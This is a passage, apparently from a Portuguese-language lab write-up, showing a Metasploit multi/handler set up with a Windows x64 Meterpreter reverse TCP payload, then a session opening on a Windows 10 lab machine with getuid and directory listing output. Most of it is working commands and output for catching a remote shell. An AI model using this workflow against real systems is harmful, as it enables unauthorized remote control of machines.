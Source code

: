 ```
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Necessitamos alterar o payload do listenner para o mesmo payload do arquivo executável.
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
E configurar o IP da máquina de escuta
```
msf6 exploit(multi/handler) > set LHOST 192.168.1.10 
LHOST => 192.168.1.10
```
Verificando uma última vez...
```
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Tudo certo para iniciar a escuta...
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444
```
### Resultado

Quando executado o payload na máquina alvo, ganhamos acesso à máquina.
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Sending stage (203846 bytes) to 192.168.1.38
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.38:49748) at 2025-09-01 23:12:01 -0300

meterpreter > getuid
Server username: WIN10\user
meterpreter > ls
Listing: C:\Users\user\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  713   fil   2025-09-01 23:04:55 -0300  Desktop.lnk
```